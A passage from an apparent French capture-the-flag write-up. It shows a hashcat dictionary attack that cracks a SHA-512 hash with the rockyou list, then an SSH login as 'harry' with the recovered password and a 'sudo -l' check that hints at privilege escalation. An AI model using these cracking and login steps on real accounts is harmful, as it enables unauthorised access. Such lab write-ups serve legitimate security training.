 ```bash
hashcat -m 1700 -a 0 b326e7a664d756c39c9e09a98438b08226f98b89188ad144dd655f140674b5eb3fdac0f19bb3903be1f52c40c252c0e7ea7f5050dec63cf3c85290c0a2c5c885 -r /usr/share/hashcat/rules/best64.rule ~/SecLists/Passwords/Leaked-Databases/rockyou.txt

Dictionary cache hit:
* Filename..: /home/b0unce/SecLists/Passwords/Leaked-Databases/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 1104517568

b326e7a664d756c39c9e09a98438b08226f98b89188ad144dd655f140674b5eb3fdac0f19bb3903be1f52c40c252c0e7ea7f5050dec63cf3c85290c0a2c5c885:wingardiumleviosa123
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1700 (SHA2-512)
Hash.Target......: b326e7a664d756c39c9e09a98438b08226f98b89188ad144dd6...c5c885
Time.Started.....: Sun Dec 11 19:56:38 2022 (4 secs)
Time.Estimated...: Sun Dec 11 19:56:42 2022 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/home/b0unce/SecLists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Mod........: Rules (/usr/share/hashcat/rules/best64.rule)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  9518.6 kH/s (6.73ms) @ Accel:256 Loops:77 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 43681792/1104517568 (3.95%)
Rejected.........: 0/43681792 (0.00%)
Restore.Point....: 566272/14344384 (3.95%)
Restore.Sub.#1...: Salt:0 Amplifier:0-77 Iteration:0-77
Candidate.Engine.: Device Generator
Candidates.#1....: wolframio -> wgiugn
Hardware.Mon.#1..: Util: 92%

Started: Sun Dec 11 19:56:37 2022
Stopped: Sun Dec 11 19:56:44 2022
```

```bash
Résultat : wingardiumleviosa123
```

Comme son nom d’utilisateur est harry et que nous avons son mot de passe, nous pouvons essayer de nous connecter en SSH.

# Flag 1 | Harry

![Untitled 3](https://user-images.githubusercontent.com/68467919/206929175-3deef61c-7658-4b2e-8988-5a24e8c27dc8.png)


En exécutant la commande sudo -l, nous pouvons voir qu’Harry peut exécuter un binaire du nom de pico en tant qu’hermonine.
